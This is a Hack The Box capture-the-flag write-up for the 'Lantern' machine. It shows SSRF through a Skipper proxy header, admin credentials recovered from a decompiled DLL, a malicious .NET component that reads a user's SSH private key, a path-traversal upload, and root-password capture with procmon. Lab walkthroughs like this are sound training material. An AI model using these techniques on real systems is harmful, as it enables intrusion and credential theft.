

# Lantern.htb

| Machine     | Difficulty | Week   | Season   |
| ----------- | ---------- | ------ | -------- |
| Lantern.HTB | Hard       | Week 3 | Season 6 |

## Recon

### Scanning and Enumeration

#### Rustscan

```bash
rustscan -a 10.129.94.69
```

Rustscan discovered three open ports:

* SSH
* HTTP
* 3000

<figure><figcaption><p>Rustscan</p></figcaption></figure>

#### WhatWeb Scan

```bash
whatweb http://lantern.htb/ -v
```

<figure><figcaption><p>whatweb</p></figcaption></figure>

* The site appears to be an IT company where users can upload resumes at `http://lantern.htb/vacancies`.
* `http://lantern.htb:3000` hosts a LanternLogin page.
* [Skipper Proxy ExploitDB](https://www.exploit-db.com/raw/51111)

<figure><figcaption><p>login</p></figcaption></figure>

* Attempted RCE via PDF injection but it was unsuccessful.
* Focused on port 3000.

Discovered endpoints while inspecting the console log of `http://lantern.htb:3000`:

```js
<script src="_framework/blazor.server.js"></script>
```

```txt
Information: WebSocket connected to ws://lantern.htb:3000/_blazor?id=zuxDM5hIB0lArsgccqNQkw.
```

#### BurpSuite Extension

* Found a Blazor exploit Burp Suite extension [here](https://www.aon.com/cyber-solutions/aon\_cyber\_labs/new\_burp\_suite\_extension\_blazortrafficprocessor/).

Based on HTB Forum hints:

* SSRF on port 80:3000. [Skipper Proxy](https://www.exploit-db.com/raw/51111)
* Accessing `/_framework/blazor.boot.json` reveals all Blazor DLLs.
* Download `InternaLantern.dll` through SSRF.

```
https://www.exploit-db.com/raw/51111
```

Intercept the DLL request using Skipper Proxy:

```http
GET /_framework/InternaLantern.dll HTTP/1.1 
Host: lantern.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
X-Skipper-Proxy: http://127.0.0.1:5000
Referer: http://lantern.htb/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: keep-alive
```

Successfully downloaded the DLL file by requesting response in browser.

### Decompiling DLL File

Use JetBrains DotPeek to browse the DLL.


In `InternaLanding.Pages/Internal`, find base64 encoded employee details. Decode using [CyberChef](https://gchq.github.io/CyberChef).

```base64
"U3lzdGVtIGFkbWluaXN0cmF0b3IsIEZpcnN0IGRheTogMjEvMS8yMDI0LCBJbml0aWFsIGNyZWRlbnRpYWxzIGFkbWluOkFKYkZBX1FAOTI1cDlhcCMyMi4gQXNrIHRvIGNoYW5nZSBhZnRlciBmaXJzdCBsb2dpbiE="
```

Decoded:

```txt
System administrator, First day: 21/1/2024, Initial credentials admin:AJbFA_Q@925p9ap#22. Ask to change after first login!
```

Credentials:

```
admin:AJbFA_Q@925p9ap#22

```

<figure><figcaption></figcaption></figure>

Use these credentials to log in at `http://lantern.htb:3000/`.

### Uploading a Shell

In the "Upload content" section, we can upload any file type and it is saved in `/var/components`

<figure><figcaption></figcaption></figure>

### Exploiting .NET Components

1.  **Install .NET 6 SDK**:

    ```bash
    sudo apt install dotnet-sdk-6
    ```
2.  **Create and Configure .NET Project**:

    ```bash
    dotnet new console -c sedlyf
    ```

    ```bash
    dotnet add package Microsoft.AspNetCore.Components --version 6.0.0
    ```
3.  **Update `Program.cs`**:

    ```csharp
    using Microsoft.AspNetCore.Components;
    using Microsoft.AspNetCore.Components.Rendering;
    using System.IO;

    namespace sedlyf
    {
        public class Component : ComponentBase
        {
            protected override void BuildRenderTree(RenderTreeBuilder builder)
            {
                base.BuildRenderTree(builder);

                // Read file content
                string file = File.ReadAllText("/home/tomas/.ssh/id_rsa"); //ssh key
                builder.AddContent(0, file);
            }
        }
    }
    ```
4.  **Build the DLL**:

    ```bash
    dotnet build sedlyf.csproj -c Release
    ```

    The DLL is saved in `bin/Release/net6.0/sedlyf.dll`.

### Exploiting the Upload

Upload the DLL to `lantern.htb:3000`. The file upload page allows for arbitrary file uploads.

To circumvent directory restrictions, modify the filename to:

```
../../../../../../opt/components/sedlyf.dll
```

Intercept and modify the request with Burp Suite and Blazor Traffic Processor:

*   **Intercept and Send**:

    Right-click the request > Extensions > Blazor Traffic Processor > Send Body to BTP tab.

<figure><figcaption></figcaption></figure>

*   **Deserialize and Modify Path**:

    Adjust the path in the JSON to ensure it's pointing to the correct location.

<figure><figcaption></figcaption></figure>

*   **Upload and Execute**:

    Upload the modified request. To execute the code, enter `<your shell name>` in the search bar. &#x20;

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### Capturing User Flag

*   **Retrieve SSH Key**:

    ```bash
    chmod 600 id_rsa
    ```
*   **SSH into the Machine**:

    ```bash
    ssh -i id_rsa tomas@lantern.htb
    ```

<figure><figcaption></figcaption></figure>

*   **Inspect Automation Script**:

    ```bash
    cat /root/automation.sh
    ```

    The script is not directly accessible, but it's being executed.\

*   **Read the User Flag**:

    ```bash
    cat /home/tomas/user.txt
    ```

### Privilege Escalation

*   **Check Mail**:

    ```bash
    cat /var/mail/$(whoami)
    ```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

*   **Monitor the Process**:

    Use `procmon` to monitor process activities:

    ```bash
    ps -aef | grep automation
    ```

<figure><figcaption></figcaption></figure>

*   <pre class="language-bash"><code class="lang-bash"><strong>sudo /usr/bin/procmon -p &#x3C;Automation PID> -e write
    </strong></code></pre>

    Wait for 5 mins or till 5000 line captures, Save the output with F6 and quit with F9
* Alternatively, use a script to monitor and capture output:

```bash
#!/bin/bash

OLD_PID=$(ps -ef | grep -i nano | grep -v grep | awk '{print $2}')

while true; do
    NEWPID=$(ps -ef | grep -i nano | grep -v grep | awk '{print $2}')
    
    if [ "$OLD_PID" != "$NEWPID" ] && [[ -n "$NEWPID" ]]; then
        echo "We have a new PID! Old PID: $OLD_PID, New PID: $NEWPID"
        OLD_PID=$NEWPID
        sudo /usr/bin/procmon -p $NEWPID -e write -c nano$NEWPID.out
    fi
    
    sleep 5
done
```

*   **Transfer and Analyze the Output**:

    ```bash
    scp -i id_rsa tomas@lantern.htb:/path/to/nano10720.out nano10720.out
    ```

    The output file is in SQLite format; using SQLite3 to analyze it.

    \

*   **SQLite Query**:

    ```bash
    sqlite3 nano10720.out
    ```

    ```txt
    sqlite> .output out.txt
    ```

    Run the following query to filter out Hexadecimal Data

    ```sql
    sqlite> SELECT hex(substr(arguments, 9, resultcode)) FROM ebpf WHERE resultcode > 0 ORDER BY timestamp;
    ```

    \

*   **Data Interpretation**: Given the content of `out.txt`, which is a series of hexadecimal codes, it seems that the data represents a sequence of ASCII characters mixed with some control characters, particularly those associated with terminal or escape sequences (e.g., `1B5B` is an escape sequence commonly used in terminal emulation).\


    To interpret this data, you need to:

    * **Convert the Hexadecimal Data to ASCII**: Translate the hexadecimal values to their corresponding ASCII characters, while correctly handling escape sequences.
    * **Handle Escape Sequences**: Recognize and interpret any terminal escape sequences (like `1B5B` which is the ESC \[ sequence) that affect how text is displayed.

    Following python script will do the work

    ```python
    import binascii

    # Read the content from out.txt
    with open('out.txt', 'r') as file:
        hex_data = file.read().strip().replace('\n', '')

    # Convert hex data to binary
    binary_data = binascii.unhexlify(hex_data)

    # Decode the binary data to a string
    try:
        decoded_string = binary_data.decode('utf-8', errors='replace')
    except UnicodeDecodeError:
        decoded_string = binary_data.decode('latin1', errors='replace')

    print("Decoded Data:\n")
    print(decoded_string)
    ```

    ```bash
    python3 hex.py
    ```

    This script should give you a readable output of the data and handle terminal escape sequences if they are part of the data.

<figure><figcaption></figcaption></figure>

* The above characters are following a pattern **First letter** printing once \[space] **Following letters** printing twice

After cleaning it will be like

```
echo Q3Eddtdw3pMB | sudo ./backup.sh
```

Putting that string as root password

<figure><figcaption></figcaption></figure>

```
cat /root/root.txt
```

Got the Root flag

***

Happy Hacking
